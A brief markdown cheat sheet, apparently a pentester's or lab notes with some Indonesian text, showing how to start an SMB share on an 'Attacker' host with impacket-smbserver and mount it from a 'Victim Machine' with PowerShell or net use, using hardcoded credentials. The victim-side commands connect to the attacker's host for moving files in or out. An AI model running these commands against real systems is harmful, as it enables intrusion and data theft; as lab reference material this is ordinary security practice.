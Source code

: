# Setup SMB Server Windows
### Attacker 
```bash
impacket-smbserver drop $(pwd) -smb2support -user mrdoel -password 123456
```


### Victim Machine (Powershell)
```shell
$pass = convertto-securestring '123456' -AsPlainText -Force

$pass

$cred = New-Object System.Management.Automation.PSCredential('mrdoel', $pass)

$cred

New-PSDrive -Name mrdoel -PSProvider FileSystem -Credential $cred -Root \\10.10.14.4\drop
```

### Victim Machine (CMD)
```
net use \\10.10.14.24\share /u:mrdoel 12345
```
### Attacker Connected
jika sudah connected maka perintahnya

```shell
cd mrdoel:
```